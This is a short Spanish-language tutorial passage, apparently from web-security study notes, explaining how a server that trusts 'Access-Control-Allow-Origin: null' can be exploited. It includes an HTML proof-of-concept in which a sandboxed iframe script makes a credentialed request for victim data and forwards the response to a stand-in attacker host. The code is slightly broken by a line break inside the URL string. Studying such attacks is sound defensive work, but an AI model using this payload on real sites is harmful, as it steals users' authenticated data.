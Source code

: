 El 0bjetivo es emitir una solicitud que tenga como cabecera origin "null" para que coincida con Access-Control-Allow-Origin: null

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','vulnerable-website.com/sensitive-victim-data',true);
	req.withCredentials = true;
	req.send();
	function reqListener() { location='malicious-website.com/log
	key='+this.responseText; };
</script>">
</iframe>
```

En el estándar CORS, el valor `Origin` generalmente indica el dominio de origen de la solicitud. Sin embargo, el valor `null` en el encabezado `Origin` es una excepción que se usa en casos especiales, como:

- Solicitudes desde archivos locales (protocolo `file://`).
- Redirecciones entre dominios.
- Solicitudes sandboxed en iframes.


- **Solicitudes con origen `null`**: Debido al sandboxing del iframe, cualquier solicitud realizada desde él tendrá un encabezado `Origin: null`. Este comportamiento es una especificación de los navegadores para evitar que estos iframes hereden el contexto de seguridad del sitio original.